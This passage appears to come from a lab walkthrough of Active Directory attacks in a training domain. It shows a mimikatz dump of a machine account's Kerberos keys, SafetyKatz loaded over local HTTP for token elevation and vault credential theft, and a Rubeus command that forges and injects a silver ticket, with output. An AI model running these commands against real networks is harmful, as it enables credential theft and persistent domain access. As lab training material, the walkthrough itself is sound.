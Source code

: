 ```
         * Username : mgmtsrv$
         * Domain   : TECH.FINANCE.CORP
         * Password : (null)
         * Key List :
           aes256_hmac       e88b558cf0e531fd9cff56c8db3b24ce6784e62e5b2f9cb807b5afa9dfed2fa7🔑
           rc4_hmac_nt       207218a0920d00bbbd4daa22f6e767d3
           rc4_hmac_old      207218a0920d00bbbd4daa22f6e767d3
           rc4_md4           207218a0920d00bbbd4daa22f6e767d3
           rc4_hmac_nt_exp   207218a0920d00bbbd4daa22f6e767d3
           rc4_hmac_old_exp  207218a0920d00bbbd4daa22f6e767d3

[SNIP]
```
🚩

`C:\Users\Public\Loader.exe -path http://127.0.0.1:1234/SafetyKatz.exe token::elevate`:
```
[SNIP]

mimikatz(commandline) # token::elevate📌
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

588     {0;000003e7} 1 D 18373          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !📌
 * Process Token : {0;0028e875} 0 D 2685490     TECH\Administrator      S-1-5-21-1325336202-3661212667-302732393-500            (12g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 2701727     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # vault::cred /patch
```
❌

#### Domain Persistence | Silver Ticket

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:http/mgmtsrv.tech.finance.corp /rc4:207218a0920d00bbbd4daa22f6e767d3 /sid:S-1-5-21-1325336202-3661212667-302732393 /ldap /user:administrator /domain:tech.finance.corp /ptt`:
```
[SNIP]

[*] Action: Build TGS📌

[SNIP]

[*] Domain         : TECH.FINANCE.CORP🏛️ (TECH)
[*] SID            : S-1-5-21-1325336202-3661212667-302732393
[*] UserId         : 1109
[*] Groups         : 513
[*] ServiceKey     : 207218A0920D00BBBD4DAA22F6E767D3
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 207218A0920D00BBBD4DAA22F6E767D3
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : http📌
[*] Target         : mgmtsrv🖥️.tech.finance.corp

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
```